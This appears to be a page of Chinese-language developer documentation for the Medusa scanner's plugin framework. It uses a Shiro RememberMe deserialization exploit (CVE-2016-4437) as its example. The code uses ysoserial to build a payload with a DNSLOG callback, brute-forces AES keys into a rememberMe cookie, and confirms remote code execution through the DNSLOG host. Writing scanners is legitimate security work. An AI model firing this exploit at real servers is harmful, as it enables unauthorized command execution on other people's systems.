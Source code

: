 ```python
    try:
        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,Pool=Pool,Url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(20)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

```

##### 注意点：

- 所有全局变量都存放这边，也就是说这个参数并不会在后面需要改变了，比如处理好的目标连接`payload_url `、**ysoserial.jar**的路径地址`YsoserialPath`、循环使用**Key**的列表`CipherKey`等参数都存放到这个函数中
- 循环调用需要在`try....except`中
- 如果所执行的代码在其他线程中的判断也能找到的话，该代码需要写在`for`循环中，比如上面的`Dnslog()`函数，如果所有线程都使用同一个DNSLOG的话就会导致如果其中一个执行成功，后面的所有线程都能找到请求的这个值，导致大量的误报
- 每个多线程必须`for`循环上面定义一个 `ThreadPool()`线程池，然后使用进程池中的`Append()`函数发送到进程池中，最后循环结束后调用线程池中的`Start(10)`函数来启动所有的线程
- `Append()`函数的第一个参数必须是需要调用的函数，这边统一叫做`task`函数，传入的参数必须添加`Uid=kwargs.get("Uid")`和`Sid=kwargs.get("Sid")`参数
- `task`函数需要使用到的参数、初始化的后的类都必须使用`Append()`函数来传入，具体方式见上述函数用法

### task函数

```python
def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("Url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        resp=requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(3)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, resp, **kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```

